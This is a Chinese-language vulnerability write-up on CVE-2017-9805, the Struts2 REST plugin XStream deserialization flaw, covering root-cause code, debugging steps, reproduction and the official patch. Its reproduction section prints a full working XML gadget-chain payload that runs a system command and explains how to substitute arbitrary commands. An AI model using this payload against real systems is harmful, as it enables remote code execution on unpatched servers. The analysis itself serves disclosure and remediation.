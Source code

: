 # Struts2-052漏洞分析

![strust2](image/struts2/strust2.jpg)

## 1.&emsp;漏洞描述 ##

* 漏洞描述：Struts2 REST插件的XStream组件存在反序列化漏洞，使用XStream组件对XML格式的数据包进行反序列化操作时，未对数据内容进行有效验证，存在安全隐患，可被远程攻击。
* 漏洞编号：CVE-2017-9805
* 漏洞作者：lgtm.com的安全研究员
* 影响版本：Version 2.5.0 to 2.5.12 和 Version 2.3.0 to 2.3.33
* 漏洞等级：高危

## 2.&emsp;漏洞简介 ##

| Who should read this    |    All Struts 2 developers and users     |
| ----------------------- | :--------------------------------------: |
| Impact of vulnerability | A RCE attack is possible when using the Struts REST plugin with XStream handler to deserialise XML requests |
| Maximum security rating |                 Critical                 |
| Recommendation          | Upgrade to Struts 2.5.13 or Struts 2.3.34 |
| Affected Software       | Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12 |
| Reporter                | Man Yue Mo <mmo at semmle dot com> (lgtm.com / Semmle). More information on the lgtm.com blog: https://lgtm.com/blog |
| CVE Identifier          |              CVE-2017-9805               |

## 3.&emsp;漏洞分析 ##

### 3.1&emsp;漏洞说明 ###

&emsp;&emsp;本次漏洞触发点是REST插件在解析请求中的xml文件时，调用了XStreamHandler，传入的数据会被默认进行反序列化，如果当传入的xml是个经过XStream序列化的恶意对象时，便造成反序列化漏洞。

### 3.2&emsp;漏洞原理分析 ###

&emsp;&emsp;本次漏洞的成因由两部分组成，一个是 Struts2 REST插件(struts2-rest-plugin-2.x.jar)本身没有对进入的数据进行安全检查，导致攻击者可以传入恶意的xml对象可以传入到XStream里。另一个是XStream在反序列化传入的xml造成的远程代码执行。

关键代码在org.apache.struts2.rest.ContentTypeInterceptor里。

```
 public String intercept(ActionInvocation invocation) throws Exception {
        HttpServletRequest request = ServletActionContext.getRequest();
        ContentTypeHandler handler = selector.getHandlerForRequest(request);
        
        Object target = invocation.getAction();
        if (target instanceof ModelDriven) {
            target = ((ModelDriven)target).getModel();
        }
        
        if (request.getContentLength() > 0) {
            InputStream is = request.getInputStream();
            InputStreamReader reader = new InputStreamReader(is);
            handler.toObject(reader, target);
        }
        return invocation.invoke();
    }
```

**ContentTypeHandler handler = selector.getHandlerForRequest(request);** 通过request数据获取执行方法：org.apache.struts2.rest.handler.XStreamHandler

**handler.toObject(reader, target);** 对获取到的序列化的xml数据进行反序列化操作，在这一阶段将序列化的恶意POC进行反序列化操作并造成代码执行。

这里我们直接断点打在上文说的两个地方，用恶意payload进行攻击。


![strust2](image/struts2/1.png)

我们可以看到整个的调用栈，找到断点处，f5进入断点逻辑，可以看到在标记处获取Content-Type的值为：application/xml。

![strust2](image/struts2/2.png)

继续debug，可以看到根据我们获取到的content-type值从而得到我们代码执行的调用栈地址：

![strust2](image/struts2/3.png)

指定了我们的处理方法，继续断点到handler.toObject(reader, target);处：

![strust2](image/struts2/4.png)

f5进去toObject函数方法，继续执行，在XStreamHanler.toObject调用了XStream的fromXml，从而进入反序列化流程：

![strust2](image/struts2/5.png)

继续执行，看到反序列化函数unmarshal，在这个函数执行时没有进行数据安全检查，导致远程代码执行。

![strust2](image/struts2/6.png)

返回执行结果：

![strust2](image/struts2/7.png)

## 4.&emsp;漏洞复现 ##

1. 通过网上下载含有struts2-rest-plugin-2.5.12.jar版本的官方环境[struts2-rest-showcase-2.5.12.war](https://github.com/yaofeifly/Struts2-052-POC "https://github.com/yaofeifly/Struts2-052-POC")。
2. 将下载的war包通过eclipse导入到工程中，File--->Import---->war file。

  ![strust2](image/struts2/8.png)
3. 需要注意的是，由于javax.imageio的依赖关系，我们的环境的jdk版本需要是jdk8以上，jdk8某些低版本也是不行的，本文作者的版本是jdk8_111，后续的一些验证都是在这个版本上做的。
4. 启动工程，然后通过burpsuite进行抓包，然后Send to Reapeater 进行数据包篡改。

  ![strust2](image/struts2/9.png)

5. 主要POC为：

   ```xml
   <map> 
   <entry> 
   <jdk.nashorn.internal.objects.NativeString> 
   <flags>0</flags> 
   <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"> 
   <dataHandler> 
   <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
   <is class="javax.crypto.CipherInputStream"> 
   <cipher class="javax.crypto.NullCipher"> 
   <initialized>false</initialized> 
   <opmode>0</opmode> 
   <serviceIterator class="javax.imageio.spi.FilterIterator"> 
   <iter class="javax.imageio.spi.FilterIterator"> 
   <iter class="java.util.Collections$EmptyIterator"/> 
   <next class="java.lang.ProcessBuilder"> 
   <command> 
   <string>calc</string> 
   </command> 
   <redirectErrorStream>false</redirectErrorStream> 
   </next> 
   </iter> 
   <filter class="javax.imageio.ImageIO$ContainsFilter"> 
   <method> 
   <class>java.lang.ProcessBuilder</class> 
   <name>start</name> 
   <parameter-types/> 
   </method> 
   <name>foo</name> 
   </filter> 
   <next class="string">foo</next> 
   </serviceIterator> 
   <lock/> 
   </cipher> 
   <input class="java.lang.ProcessBuilder$NullInputStream"/> 
   <ibuffer></ibuffer> 
   <done>false</done> 
   <ostart>0</ostart> 
   <ofinish>0</ofinish> 
   <closed>false</closed> 
   </is> 
   <consumed>false</consumed> 
   </dataSource> 
   <transferFlavors/> 
   </dataHandler> 
   <dataLen>0</dataLen> 
   </value> 
   </jdk.nashorn.internal.objects.NativeString> 
   <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/> 
   </entry> <entry> 
   <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> 
   <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> 
   </entry> 
   </map>
   ```

**注意事项：** 

1. 注意如果数据包请求方式为GET的话需要修改为POST请求方式。
2. 注意修改Content-Type的值为：application/xml。
  3. 该POC为windows服务器上弹出计算器payload,若想修改为其他执行payload，将`<string>calc</string>`中的calc替换为你想执行的命令，空格用多个 `<string></string>	`标签嵌套。

## 5.&emsp;修复方案 ##

### 5.1&emsp;补丁分析 ###

对struts2-rest-plugin-2.5.12.jar中的struts-plugin.xml进行分析，可以看到XStreamHanler就是Content-Type:xml的默认处理句柄，而且可以看出xml是默认支持格式，这也就是说存在rest插件就会存在XStream的反序列化漏洞。

![strust2](image/struts2/10.png)

通过对比[官方的补丁](https://github.com/apache/struts/commit/19494718865f2fb7da5ea363de3822f87fbda264 "https://github.com/apache/struts/commit/19494718865f2fb7da5ea363de3822f87fbda264"),我们可以看到最主要的修复逻辑在plugins/rest/src/main/java/org/apache/struts2/rest/handler/XStreamHandler.java中：

![strust2](image/struts2/11.png)

在官方的修复方案中,主要就是将xml中的数据白名单化，把Collection和Map，一些基础类，时间类放在白名单中，这样就能阻止XStream反序列化的过程中带入一些有害类。

### 5.2&emsp;修复建议 ###

1. Version 2.3.0 to 2.3.33升级到Struts 2.3.34版本
2. Version 2.5.0 to 2.5.12升级到Struts 2.5.13版本